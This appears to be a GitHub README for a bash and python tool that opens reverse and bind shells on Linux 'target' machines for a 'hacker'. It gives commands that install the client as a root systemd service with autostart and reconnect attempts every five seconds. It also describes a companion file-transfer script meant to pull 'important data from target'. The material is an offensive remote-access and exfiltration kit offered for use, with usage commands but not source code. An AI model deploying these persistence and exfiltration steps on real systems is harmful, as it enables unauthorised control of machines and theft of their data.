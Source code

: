 # Rvc Reverse and Bind shell

A script for creating a reverse and bind shell tunnel for linux servers 
Not actual rsh that uses RCE for injecting the vulnerability.

Reverse Shell:
![demo image0](demo-rsh.jpg)

Bind Shell:
![demo image1](demo-bsh.jpg)

## Features

1) Complete control of remote shell including ctrl+.. signals.
2) Supports interaction with text editors like nano, vim, emacs on remote shell as well !!
3) Auto tab completion supported.
4) Ansi color output and characters supported.
5) Dynamic communiation with the launched command.
6) Install and uninstall as a systemd service on target with autostart on boot.
7) Target RSH client always tries every 5 seconds to reconnect to the hacker server.
8) Less bandwidth consumption and never hangs up.

## Getting Started

These instructions will get you a copy of the project up and running on your local machine for development and testing purposes. See deployment for notes on how to deploy the project on a live system.

### Prerequisites

This script was tested on Ubuntu 18.04 LTS and Kali Linux 2019.3
However this script needs some basic bash primitives in a normal linux distribution.

Server side:: Target side
1) bash
2) python (2 or 3)
3) stty (for setting terminal window)
4) systemctl service support (for installation and autostart)

Client side:: Hacker side 
1) bash
2) python (2 or 3)
3) stty (for getting hacker terminal sizes)
4) awk interpreter and hostname utility

## Deployment

The following steps will guide you setting up a Reverse Shell between two pcs in same network

to set the reverse shell to connect to the hacker ip address.

1) Copy this file on Target pc and either install (run as root) or expose its terminal to hacker pc. Run
```
./rvc-rsh install (hacker hostname) (port no)
or
./rvc-rsh expose  (hacker hostname) (port no)

for bsh

./rvc-bsh install (target hostname) (port no)
or
./rvc-bsh expose  (target hostname) (port no)


uninstall on target:
./rvc-rsh uninstall
or 
./rvc-bsh uninstall
```
Give the hostname and port no. to open a connection.
Just remember for now the script supports only one rsh client install per target pc if you want to.

2) on hacker terminal to open a client bearing (hacker hostname) and (port no) run
```
./rvc-rsh open (hacker hostname) (port no)
for bsh
./rvc-bsh open (target hostname) (port no)
```
This will establish a TCP connection between the hacker and the target shells
And MAGIC !! you will entirely get the remote console with all above mentioned features !!

### Complimentary File transfer utility

File transfer script (rvc-ft) however is not the actual part of this repo but 
after some experiments using rsh and bsh we urgently felt a need for an anonymous file transfer
to get important data from target. For that we wrote our own naive FTP over TCP in python
to enable raw file transfer. We have written this FTP in both reverse and bind methodologies.
This script is to be copied with the other scripts on target pc to enable its features obviously.

A) Reverse transfer

![demo image2](demo-rft.jpg)

1) first start rvc-rft in reciever mode 
```
./rvc-rft recv (reciever hostname) (port no.) (path/to/save/file/as)
```
2) then transmit the remote file
```
./rvc-rft send (reciever hostname) (port no.) (remote/path/to/file)
```
3) have patience and DONE!! because no progress bars, etc.


B) Bind transfer

![demo image3](demo-bft.jpg)

1) first start rvc-bft in sender mode 
```
./rvc-bft send (sender hostname) (port no.) (remote/path/to/file)
```
2) then transmit the remote file
```
./rvc-bft recv (sender hostname) (port no.) (path/to/save/file/as)
```
3) have patience and DONE!! because no progress bars, etc.

## Author

* **Rajas Chavadekar** 

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details

